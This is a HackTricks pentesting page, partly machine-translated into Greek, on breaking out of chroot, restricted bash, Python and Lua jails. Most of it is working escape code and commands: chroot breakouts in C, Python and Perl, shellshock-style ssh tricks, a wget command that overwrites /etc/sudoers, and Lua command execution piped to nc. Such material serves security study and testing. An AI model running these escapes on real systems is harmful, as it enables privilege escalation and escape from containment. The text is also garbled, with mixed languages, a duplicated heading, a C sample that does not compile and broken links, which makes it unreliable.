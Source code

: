 # Escaping from Jails

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **GTFOBins**

**Search in** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **if you can execute any binary with "Shell" property**

## Chroot Escapes

From [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): The chroot mechanism is **not intended to defend** against intentional tampering by **privileged** (**root**) **users**. On most systems, chroot contexts do not stack properly and chrooted programs **with sufficient privileges may perform a second chroot to break out**.\
Usually this means that to escape you need to be root inside the chroot.

{% hint style="success" %}
The **tool** [**chw00t**](https://github.com/earthquake/chw00t) was created to abuse the following escenarios and scape from `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
If you are **root** inside a chroot you **can escape** creating **another chroot**. This because 2 chroots cannot coexists (in Linux), so if you create a folder and then **create a new chroot** on that new folder being **you outside of it**, you will now be **outside of the new chroot** and therefore you will be in the FS.

This occurs because usually chroot DOESN'T move your working directory to the indicated one, so you can create a chroot but e outside of it.
{% endhint %}

Usually you won't find the `chroot` binary inside a chroot jail, but you **could compile, upload and execute** a binary:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>  
<summary>Πυθών</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
Αυτό είναι παρόμοιο με την προηγούμενη περίπτωση, αλλά σε αυτή την περίπτωση ο **επιτιθέμενος αποθηκεύει έναν περιγραφέα αρχείου στον τρέχοντα φάκελο** και στη συνέχεια **δημιουργεί το chroot σε έναν νέο φάκελο**. Τελικά, καθώς έχει **πρόσβαση** σε αυτόν τον **FD** **έξω** από το chroot, έχει πρόσβαση σε αυτόν και **διαφεύγει**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD μπορεί να περαστεί μέσω Unix Domain Sockets, οπότε:

* Δημιουργήστε μια διαδικασία παιδί (fork)
* Δημιουργήστε UDS ώστε ο γονέας και το παιδί να μπορούν να μιλούν
* Εκτελέστε chroot στη διαδικασία παιδιού σε έναν διαφορετικό φάκελο
* Στη διαδικασία γονέα, δημιουργήστε ένα FD ενός φακέλου που είναι εκτός του νέου chroot της διαδικασίας παιδιού
* Περάστε στη διαδικασία παιδιού αυτό το FD χρησιμοποιώντας το UDS
* Η διαδικασία παιδιού chdir σε αυτό το FD, και επειδή είναι εκτός του chroot της, θα ξεφύγει από τη φυλακή
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Τοποθέτηση της ρίζας συσκευής (/) σε έναν φάκελο μέσα στο chroot
* Chrooting σε αυτόν τον φάκελο

Αυτό είναι δυνατό στο Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Τοποθέτηση του procfs σε έναν φάκελο μέσα στο chroot (αν δεν είναι ήδη)
* Αναζητήστε ένα pid που έχει διαφορετική είσοδο root/cwd, όπως: /proc/1/root
* Chroot σε αυτήν την είσοδο
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Δημιουργήστε ένα Fork (παιδική διαδικασία) και chroot σε έναν διαφορετικό φάκελο πιο βαθιά στο FS και CD σε αυτόν
* Από τη διαδικασία γονέα, μετακινήστε τον φάκελο όπου βρίσκεται η διαδικασία παιδί σε έναν φάκελο προηγούμενο από το chroot των παιδιών
* Αυτή η διαδικασία παιδί θα βρει τον εαυτό της εκτός του chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Πριν από καιρό, οι χρήστες μπορούσαν να αποσφαλματώσουν τις δικές τους διαδικασίες από μια διαδικασία του εαυτού τους... αλλά αυτό δεν είναι πλέον δυνατό από προεπιλογή
* Ούτως ή άλλως, αν είναι δυνατόν, μπορείτε να ptrace σε μια διαδικασία και να εκτελέσετε ένα shellcode μέσα σε αυτήν ([δείτε αυτό το παράδειγμα](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Πάρτε πληροφορίες σχετικά με τη φυλακή:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modify PATH

Ελέγξτε αν μπορείτε να τροποποιήσετε τη μεταβλητή περιβάλλοντος PATH
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Χρησιμοποιώντας το vim
```bash
:set shell=/bin/sh
:shell
```
### Δημιουργία σεναρίου

Ελέγξτε αν μπορείτε να δημιουργήσετε ένα εκτελέσιμο αρχείο με _/bin/bash_ ως περιεχόμενο
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Get bash from SSH

Αν έχετε πρόσβαση μέσω ssh, μπορείτε να χρησιμοποιήσετε αυτό το κόλπο για να εκτελέσετε ένα bash shell:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Δηλώστε
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Μπορείτε να αντικαταστήσετε, για παράδειγμα, το αρχείο sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Άλλες τεχνικές

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Θα μπορούσε επίσης να είναι ενδιαφέρουσα η σελίδα:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Τεχνικές για να ξεφύγετε από python jails στη παρακάτω σελίδα:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

Σε αυτή τη σελίδα μπορείτε να βρείτε τις παγκόσμιες συναρτήσεις στις οποίες έχετε πρόσβαση μέσα στο lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval με εκτέλεση εντολών:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Ορισμένα κόλπα για **να καλέσετε συναρτήσεις μιας βιβλιοθήκης χωρίς να χρησιμοποιήσετε τελείες**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Καταγράψτε τις λειτουργίες μιας βιβλιοθήκης:
```bash
for k,v in pairs(string) do print(k,v) end
```
Σημειώστε ότι κάθε φορά που εκτελείτε την προηγούμενη μία γραμμή σε **διαφορετικό περιβάλλον lua η σειρά των συναρτήσεων αλλάζει**. Επομένως, αν χρειάζεται να εκτελέσετε μια συγκεκριμένη συνάρτηση, μπορείτε να εκτελέσετε μια επίθεση brute force φορτώνοντας διαφορετικά περιβάλλοντα lua και καλώντας την πρώτη συνάρτηση της βιβλιοθήκης le:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Αποκτήστε διαδραστικό lua shell**: Εάν βρίσκεστε μέσα σε ένα περιορισμένο lua shell, μπορείτε να αποκτήσετε ένα νέο lua shell (και ελπίζουμε απεριόριστο) καλώντας:
```bash
debug.debug()
```
## Αναφορές

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Διαφάνειες: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
